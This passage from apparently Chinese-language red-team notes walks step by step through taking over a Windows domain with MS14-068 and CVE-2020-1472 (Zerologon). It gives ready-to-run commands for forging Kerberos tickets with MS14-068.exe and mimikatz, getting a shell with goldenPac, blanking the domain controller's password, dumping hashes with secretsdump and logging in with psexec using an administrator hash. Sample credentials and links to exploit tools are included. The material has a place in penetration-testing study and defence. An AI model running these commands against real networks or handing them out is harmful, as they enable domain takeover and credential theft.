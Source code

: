 #### 2. ms14-068

工具地址：[ms14-068.exe](http://github.com/abatchy17/WindowsExploits/tree/master/MS14-068)

1.利用前提已获取域内一账户密码，且未打补丁**KB3011780**

获取sid `whoami /user` 或者 `wmic useraccount get name,sid`

2.伪造证书

`MS14-068.exe -u saul@redteam.red -p admin!@#45 -s S-1-5-21-1359007890-1682372173-1631803504 -d owa.redteam.red`

3.清空凭据

`klist purge`

![](http://qn.laohuan.xin/2021-12-06_00-24.png)

4.使用mimikatz导入生成的证书

`kerberos::ptc TGT_saul@redteam.red.ccache`

5.退出mimikatz,成功访问域控

`dir \\owa\c$`

![](http://qn.laohuan.xin/2021-12-06_00-40.png)

6.或者使用goldenPac直接获得一个shell（ms14-068+psexec）

工具地址：[impacket-example-windows](http://github.com/maaaaz/impacket-examples-windows)

`goldenPac.exe redteam.red/saul:admin!@#45@owa.redteam.red`

![](http://qn.laohuan.xin/2021-12-07_05-00.png)

#### 3. CVE-2020-1472(谨慎使用)

1.使用exp将域控密码置空

`python3 cve-2020-1472-exploit.py owa 10.10.10.8`

![](http://qn.laohuan.xin/2021-12-13_07-02.png)

2.获取hash

`python3 secretsdump.py redteam.red/owa\$@10.10.10.8  -just-dc -no-pass`

![](http://qn.laohuan.xin/2021-12-13_07-04.png)

3.获得administrator的hash,直接psexec

`python3 psexec.py administrator@10.10.10.8 -hashes aad3b435b51404eeaad3b435b51404ee:ccef208c6485269c20db2cad21734fe7`

![](http://qn.laohuan.xin/2021-12-13_07-07.png)

**注意**：此方法可能导致脱域，获取权限后请将域控密码还原
